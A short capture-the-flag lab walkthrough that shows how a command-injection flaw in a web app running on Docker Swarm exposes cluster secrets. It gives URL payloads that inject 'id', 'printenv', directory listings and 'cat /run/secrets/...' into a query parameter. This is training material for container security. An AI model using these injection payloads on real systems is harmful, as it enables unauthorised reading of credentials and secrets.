




# Exploiting Cluster Secrets

In this scenario we will see how we will exploit an application to access docker swarm cluster secrets.

* The application running in the CTF VM has code execution vulnerability `http://CTFVMIP:8080/?domain=;id` and is running in docker swarm as service with attached secrets

* We can access the application container's environment variables using the `printenv` command by visiting `http://CTFVMIP:8080/?domain=;printenv`

* We can explore the directories further `http://CTFVMIP:8080/?domain=;ls -l /run/`

* The secrets are mounted via `docker secrets` at `/var/run/` or `/run/`. We can access them by visiting `http://CTFVMIP:8080/?domain=;cat /run/secrets/data_api_key`

* A similar approach can be user for `docker swarm` and `kubernetes` cluster environments
